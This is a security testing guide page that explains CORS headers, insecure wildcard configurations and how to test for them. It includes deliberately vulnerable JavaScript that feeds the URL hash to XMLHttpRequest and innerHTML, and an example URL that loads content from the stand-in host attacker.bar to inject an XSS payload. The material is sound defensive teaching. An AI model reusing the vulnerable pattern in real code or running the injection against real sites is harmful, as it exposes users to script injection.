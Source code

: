 ```yaml
---

layout: col-document
title: WSTG - Latest
tags: WSTG

---
```

# Testing for Cross Origin Resource Sharing

|ID             |
|---------------|
|WSTG-CLNT-07|

## Summary

[Cross origin resource sharing](https://en.wikipedia.org/wiki/Cross-origin_resource_sharing) (CORS) is a mechanism that enables a web browser to perform cross-domain requests using the XMLHttpRequest L2 API in a controlled manner. In the past, the XMLHttpRequest L1 API only allowed requests to be sent within the same origin as it was restricted by the same origin policy.

Cross-origin requests have an origin header that identifies the domain initiating the request and is always sent to the server. CORS defines the protocol to use between a web browser and a server to determine whether a cross-origin request is allowed. HTTP [headers](https://en.wikipedia.org/wiki/Cross-origin_resource_sharing#Headers) are used to accomplish this.

The [W3C CORS specification](https://www.w3.org/TR/cors/) mandates that for non simple requests, such as requests other than GET or POST or requests that uses credentials, a pre-flight OPTIONS request must be sent in advance to check if the type of request will have a bad impact on the data. The pre-flight request checks the methods and headers allowed by the server, and if credentials are permitted. Based on the result of the OPTIONS request, the browser decides whether the request is allowed or not.

### Origin & Access-Control-Allow-Origin

The origin header is always sent by the browser in a CORS request and indicates the origin of the request. The origin header can not be changed from JavaScript however relying on this header for Access Control checks is not a good idea as it may be spoofed outside the browser, so you still need to check that application-level protocols are used to protect sensitive data.

Access-Control-Allow-Origin is a response header used by a server to indicate which domains are allowed to read the response. Based on the CORS W3 Specification it is up to the client to determine and enforce the restriction of whether the client has access to the response data based on this header.

From a penetration testing perspective you should look for insecure configurations as for example using a `*` wildcard as value of the Access-Control-Allow-Origin header that means all domains are allowed. Other insecure example is when the server returns back the origin header without any additional checks, what can lead to access of sensitive data. Note that this configuration is very insecure, and is not acceptable in general terms, except in the case of a public API that is intended to be accessible by everyone.

### Access-Control-Request-Method & Access-Control-Allow-Method

The Access-Control-Request-Method header is used when a browser performs a preflight OPTIONS request and let the client indicate the request method of the final request. On the other hand, the Access-Control-Allow-Method is a response header used by the server to describe the methods the clients are allowed to use.

### Access-Control-Request-Headers & Access-Control-Allow-Headers

These two headers are used between the browser and the server to determine which headers can be used to perform a cross-origin request.

### Access-Control-Allow-Credentials

This header as part of a preflight request indicates that the final request can include user credentials.

### Input Validation

XMLHttpRequest L2 (or XHR L2) introduces the possibility of creating a cross-domain request using the XHR API for backwards compatibility. This can introduce security vulnerabilities that in XHR L1 were not present. Interesting points of the code to exploit would be URLs that are passed to XMLHttpRequest without validation, specially if absolute URLS are allowed because that could lead to code injection. Likewise, other part of the application that can be exploited is if the response data is not escaped and we can control it by providing user-supplied input.

### Other Headers

There are other headers involved like Access-Control-Max-Age that determines the time a preflight request can be cached in the browser, or Access-Control-Expose-Headers that indicates which headers are safe to expose to the API of a CORS API specification, both are response headers specified in the CORS W3C document.

## How to Test

A tool such as [OWASP Zed Attack Proxy Project](https://www.zaproxy.org) can enable testers to intercept HTTP headers, which can reveal how CORS is used. Testers should pay particular attention to the origin header to learn which domains are allowed. Also, manual inspection of the JavaScript is needed to determine whether the code is vulnerable to code injection due to improper handling of user supplied input. Below are some examples:

### Example 1: Insecure Response with Wildcard `*` in Access-Control-Allow-Origin

Request (note the 'origin' header:)

```txt
GET http://attacker.bar/test.php HTTP/1.1
Host: attacker.bar
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.8; rv:24.0) Gecko/20100101 Firefox/24.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://example.foo/CORSexample1.html
Origin: http://example.foo
Connection: keep-alive
```

Response (note the 'Access-Control-Allow-Origin' header:)

```txt
HTTP/1.1 200 OK
Date: Mon, 07 Oct 2013 18:57:53 GMT
Server: Apache/2.2.22 (Debian)
X-Powered-By: PHP/5.4.4-14+deb7u3
Access-Control-Allow-Origin: *
Content-Length: 4
Keep-Alive: timeout=15, max=99
Connection: Keep-Alive
Content-Type: application/xml

[Response Body]
```

### Example 2: Input Validation Issue: XSS with CORS

This code makes a request to the resource passed after the `#` character in the URL, initially used to get resources in the same server.

Vulnerable code:

```html
<script>
    var req = new XMLHttpRequest();

    req.onreadystatechange = function() {
        if(req.readyState==4 && req.status==200) {
            document.getElementById("div1").innerHTML=req.responseText;
        }
    }

    var resource = location.hash.substring(1);
    req.open("GET",resource,true);
    req.send();
</script>

<body>
    <div id="div1"></div>
</body>
```

For example, a request like this will show the contents of the profile.php file:

`http://example.foo/main.php#profile.php`

Request and response generated by this URL:

```html
GET http://example.foo/profile.php HTTP/1.1
Host: example.foo
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.8; rv:24.0) Gecko/20100101 Firefox/24.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://example.foo/main.php
Connection: keep-alive

HTTP/1.1 200 OK
Date: Mon, 07 Oct 2013 18:20:48 GMT
Server: Apache/2.2.16 (Debian)
X-Powered-By: PHP/5.3.3-7+squeeze17
Vary: Accept-Encoding
Content-Length: 25
Keep-Alive: timeout=15, max=99
Connection: Keep-Alive
Content-Type: text/html

[Response Body]
```

Now, as there is no URL validation we can inject a remote script, that will be injected and executed in the context of the example.foo domain, with a URL like this:

`http://example.foo/main.php#http://attacker.bar/file.php`

Request and response generated by this URL:

```txt
GET http://attacker.bar/file.php HTTP/1.1
Host: attacker.bar
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.8; rv:24.0) Gecko/20100101 Firefox/24.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://example.foo/main.php
origin: http://example.foo
Connection: keep-alive

HTTP/1.1 200 OK
Date: Mon, 07 Oct 2013 19:00:32 GMT
Server: Apache/2.2.22 (Debian)
X-Powered-By: PHP/5.4.4-14+deb7u3
Access-Control-Allow-Origin: *
Vary: Accept-Encoding
Content-Length: 92
Keep-Alive: timeout=15, max=100
Connection: Keep-Alive
Content-Type: text/html

Injected Content from attacker.bar <img src="#" onerror="alert('Domain: '+document.domain)">
```
